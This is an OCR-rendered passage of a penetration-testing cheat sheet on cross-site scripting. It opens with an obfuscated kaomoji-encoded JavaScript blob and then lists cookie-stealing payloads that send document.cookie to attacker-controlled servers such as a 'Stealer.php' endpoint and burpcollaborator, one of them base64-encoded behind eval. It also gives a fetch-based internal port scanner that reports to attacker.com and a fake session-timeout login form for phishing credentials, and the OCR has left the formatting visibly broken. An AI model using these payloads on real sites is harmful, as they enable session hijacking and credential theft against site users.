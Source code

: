 \(ﾟДﾟ\) =\(ﾟΘﾟ\)= \(o^\_^o\)/ \(o^\_^o\);\(ﾟДﾟ\)={ﾟΘﾟ: '\_' ,ﾟωﾟﾉ : \(\(ﾟωﾟﾉ==3\) +'\_'\) \[ﾟΘﾟ\] ,ﾟｰﾟﾉ :\(ﾟωﾟﾉ+ '\_'\)\[o^\_^o -\(ﾟΘﾟ\)\] ,ﾟДﾟﾉ:\(\(ﾟｰﾟ==3\) +'\_'\)\[ﾟｰﾟ\] }; \(ﾟДﾟ\) \[ﾟΘﾟ\] =\(\(ﾟωﾟﾉ==3\) +'\_'\) \[c^\_^o\];\(ﾟДﾟ\) \['c'\] = \(\(ﾟДﾟ\)+'\_'\) \[ \(ﾟｰﾟ\)+\(ﾟｰﾟ\)-\(ﾟΘﾟ\) \];\(ﾟДﾟ\) \['o'\] = \(\(ﾟДﾟ\)+'\_'\) \[ﾟΘﾟ\];\(ﾟoﾟ\)=\(ﾟДﾟ\) \['c'\]+\(ﾟДﾟ\) \['o'\]+\(ﾟωﾟﾉ +'\_'\)\[ﾟΘﾟ\]+ \(\(ﾟωﾟﾉ==3\) +'\_'\) \[ﾟｰﾟ\] + \(\(ﾟДﾟ\) +'\_'\) \[\(ﾟｰﾟ\)+\(ﾟｰﾟ\)\]+ \(\(ﾟｰﾟ==3\) +'\_'\) \[ﾟΘﾟ\]+\(\(ﾟｰﾟ==3\) +'\_'\) \[\(ﾟｰﾟ\) - \(ﾟΘﾟ\)\]+\(ﾟДﾟ\) \['c'\]+\(\(ﾟДﾟ\)+'\_'\) \[\(ﾟｰﾟ\)+\(ﾟｰﾟ\)\]+ \(ﾟДﾟ\) \['o'\]+\(\(ﾟｰﾟ==3\) +'\_'\) \[ﾟΘﾟ\];\(ﾟДﾟ\) \['\_'\] =\(o^\_^o\) \[ﾟoﾟ\] \[ﾟoﾟ\];\(ﾟεﾟ\)=\(\(ﾟｰﾟ==3\) +'\_'\) \[ﾟΘﾟ\]+ \(ﾟДﾟ\) .ﾟДﾟﾉ+\(\(ﾟДﾟ\)+'\_'\) \[\(ﾟｰﾟ\) + \(ﾟｰﾟ\)\]+\(\(ﾟｰﾟ==3\) +'\_'\) \[o^\_^o -ﾟΘﾟ\]+\(\(ﾟｰﾟ==3\) +'\_'\) \[ﾟΘﾟ\]+ \(ﾟωﾟﾉ +'\_'\) \[ﾟΘﾟ\]; \(ﾟｰﾟ\)+=\(ﾟΘﾟ\); \(ﾟДﾟ\)\[ﾟεﾟ\]='\\'; \(ﾟДﾟ\).ﾟΘﾟﾉ=\(ﾟДﾟ+ ﾟｰﾟ\)\[o^\_^o -\(ﾟΘﾟ\)\];\(oﾟｰﾟo\)=\(ﾟωﾟﾉ +'\_'\)\[c^\_^o\];\(ﾟДﾟ\) \[ﾟoﾟ\]='\"';\(ﾟДﾟ\) \['\_'\] \( \(ﾟДﾟ\) \['\_'\] \(ﾟεﾟ+\(ﾟДﾟ\)\[ﾟoﾟ\]+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(ﾟｰﾟ\)+ \(ﾟΘﾟ\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(\(ﾟｰﾟ\) + \(ﾟΘﾟ\)\)+ \(ﾟｰﾟ\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(ﾟｰﾟ\)+ \(\(ﾟｰﾟ\) + \(ﾟΘﾟ\)\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(\(o^\_^o\) +\(o^\_^o\)\)+ \(\(o^\_^o\) - \(ﾟΘﾟ\)\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(\(o^\_^o\) +\(o^\_^o\)\)+ \(ﾟｰﾟ\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(\(ﾟｰﾟ\) + \(ﾟΘﾟ\)\)+ \(c^\_^o\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟｰﾟ\)+ \(\(o^\_^o\) - \(ﾟΘﾟ\)\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(ﾟΘﾟ\)+ \(c^\_^o\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(ﾟｰﾟ\)+ \(\(ﾟｰﾟ\) + \(ﾟΘﾟ\)\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(\(ﾟｰﾟ\) + \(ﾟΘﾟ\)\)+ \(ﾟｰﾟ\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(\(ﾟｰﾟ\) + \(ﾟΘﾟ\)\)+ \(ﾟｰﾟ\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(\(ﾟｰﾟ\) + \(ﾟΘﾟ\)\)+ \(\(ﾟｰﾟ\) + \(o^\_^o\)\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(\(ﾟｰﾟ\) + \(ﾟΘﾟ\)\)+ \(ﾟｰﾟ\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟｰﾟ\)+ \(c^\_^o\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(ﾟΘﾟ\)+ \(\(o^\_^o\) - \(ﾟΘﾟ\)\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(ﾟｰﾟ\)+ \(ﾟΘﾟ\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(\(o^\_^o\) +\(o^\_^o\)\)+ \(\(o^\_^o\) +\(o^\_^o\)\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(ﾟｰﾟ\)+ \(ﾟΘﾟ\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(\(o^\_^o\) - \(ﾟΘﾟ\)\)+ \(o^\_^o\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(ﾟｰﾟ\)+ \(o^\_^o\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(\(o^\_^o\) +\(o^\_^o\)\)+ \(\(o^\_^o\) - \(ﾟΘﾟ\)\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(\(ﾟｰﾟ\) + \(ﾟΘﾟ\)\)+ \(ﾟΘﾟ\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(\(o^\_^o\) +\(o^\_^o\)\)+ \(c^\_^o\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟΘﾟ\)+ \(\(o^\_^o\) +\(o^\_^o\)\)+ \(ﾟｰﾟ\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(ﾟｰﾟ\)+ \(\(o^\_^o\) - \(ﾟΘﾟ\)\)+ \(ﾟДﾟ\)\[ﾟεﾟ\]+\(\(ﾟｰﾟ\) + \(ﾟΘﾟ\)\)+ \(ﾟΘﾟ\)+ \(ﾟДﾟ\)\[ﾟoﾟ\]\) \(ﾟΘﾟ\)\) \('\_'\); \`\`\` \#\# XSS common payloads \#\#\# Retrieve Cookies \`\`\`javascript ![](https://github.com/boredgamesdev/gitbook/tree/a66cdd3c47098f9596e663de9498e9ad963192ca/pentesting-web/xss-cross-site-scripting/x)/?c="+document.cookie&gt; ![](https://github.com/boredgamesdev/gitbook/tree/a66cdd3c47098f9596e663de9498e9ad963192ca/pentesting-web/xss-cross-site-scripting/x)new Image\(\).src="http://&lt;IP&gt;/?c="+encodeURI\(document.cookie\);new Audio\(\).src="http://&lt;IP&gt;/?c="+escape\(document.cookie\);location.href = 'http://&lt;YOUR\_SERVER\_IP&gt;/Stealer.php?cookie='+document.cookielocation = 'http://&lt;YOUR\_SERVER\_IP&gt;/Stealer.php?cookie='+document.cookiedocument.location = 'http://&lt;YOUR\_SERVER\_IP&gt;/Stealer.php?cookie='+document.cookiedocument.location.href = 'http://&lt;YOUR\_SERVER\_IP&gt;/Stealer.php?cookie='+document.cookiedocument.write\('&lt;img src="http://&lt;YOUR\_SERVER\_IP&gt;?c='+document.cookie+'" /&gt;'\)window.location.assign\('http://&lt;YOUR\_SERVER\_IP&gt;/Stealer.php?cookie='+document.cookie\)window\['location'\]\['assign'\]\('http://&lt;YOUR\_SERVER\_IP&gt;/Stealer.php?cookie='+document.cookie\)window\['location'\]\['href'\]\('http://&lt;YOUR\_SERVER\_IP&gt;/Stealer.php?cookie='+document.cookie\)document.location=\["http://&lt;YOUR\_SERVER\_IP&gt;?c",document.cookie\].join\(\)var i=new Image\(\);i.src="http://&lt;YOUR\_SERVER\_IP&gt;/?c="+document.cookiewindow.location="https://&lt;SERVER\_IP&gt;/?c=".concat\(document.cookie\)var xhttp=new XMLHttpRequest\(\);xhttp.open\("GET", "http://&lt;SERVER\_IP&gt;/?c="%2Bdocument.cookie, true\);xhttp.send\(\);eval\(atob\('ZG9jdW1lbnQud3JpdGUoIjxpbWcgc3JjPSdodHRwczovLzxTRVJWRVJfSVA+P2M9IisgZG9jdW1lbnQuY29va2llICsiJyAvPiIp'\)\);fetch\('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie}\);navigator.sendBeacon\('https://ssrftest.com/x/AAAAA',document.cookie\) \`\`\` {% hint style="info" %} You \*\*won't be able to access the cookies from JavaScript\*\* if the HTTPOnly flag is set in the cookie. But here you have \[some ways to bypass this protection\]\(../hacking-with-cookies.md\#httponly\) if you are lucky enough. {% endhint %} \#\#\# Port Scanner \\(fetch\\) \`\`\`javascript const checkPort = \(port\) =&gt; { fetch\(http://localhost:${port}, { mode: "no-cors" }\).then\(\(\) =&gt; { let img = document.createElement\("img"\); img.src = http://attacker.com/ping?port=${port}; }\); } for\(let i=0; i::placeholder { color:white; }document.write\("&lt;div style='position:absolute;top:100px;left:250px;width:400px;background-color:white;height:230px;padding:15px;border-radius:10px;color:black'&gt;&lt;form action='https://example.com/'&gt;&lt;p&gt;Your sesion has timed out, please login again:&lt;/p&gt;&lt;input style='width:100%;' type='text' placeholder='Username' /&gt;&lt;input style='width: 100%' type='password' placeholder='Password'/&gt;&lt;input type='submit' value='Login'&gt;&lt;/form&gt;&lt;p&gt;&lt;i&gt;This login box is presented using XSS as a proof-of-concept&lt;/i&gt;&lt;/p&gt;&lt;/div&gt;"\) \`\`\` \#\#\# Auto-fill passwords capture \`\`\`javascript **Username:&lt;/&gt;  
  Password:&lt;/&gt;  